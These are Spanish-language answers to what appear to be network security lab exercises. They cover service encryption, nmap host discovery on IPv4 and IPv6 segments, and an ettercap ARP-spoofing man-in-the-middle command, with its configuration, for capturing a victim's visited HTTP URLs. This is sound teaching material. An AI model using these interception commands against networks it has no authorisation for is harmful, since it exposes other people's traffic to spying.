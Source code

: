 ### e)
Indique 3 servicios que transmiten información en claro y otros 3 cifrada.

Cifrados: https, ssh, smtps
No cifrados: telnet, ftp, http

### f)
Obtenga la relación de las direcciones MAC de los equipos de su segmento.

	# nmap -sP -n 10.10.102.0/24

### g)
Obtenga la relación de las direcciones IPv6 de su segmento.

Para obtener el listado de las máquinas, usaré un script:

	#!/bin/bash

	for i in {0..255}; do
		printf "2002:0a0a:66%02x::1\n" $i
	done

Por ejemplo, guardo la lista en `lista`:

	$ ipv6.sh > lista

Y luego la abro con nmap.
	
	# nmap -sP -n -6 -iL lista

### h)
Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima. Trate de visualizarlas directamente en su navegador.

Poner en etter.conf:

	[privs]
	ec_uid = 0
	ec_gid = 0
	...
	remote_browser = "firefox -new-tab http://%host%url"

Luego ejecutar:

	# firefox
	# ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.37/ -i wlp1s8

### i)
Haga un MITM en IPv6 y visualice la paquetería.
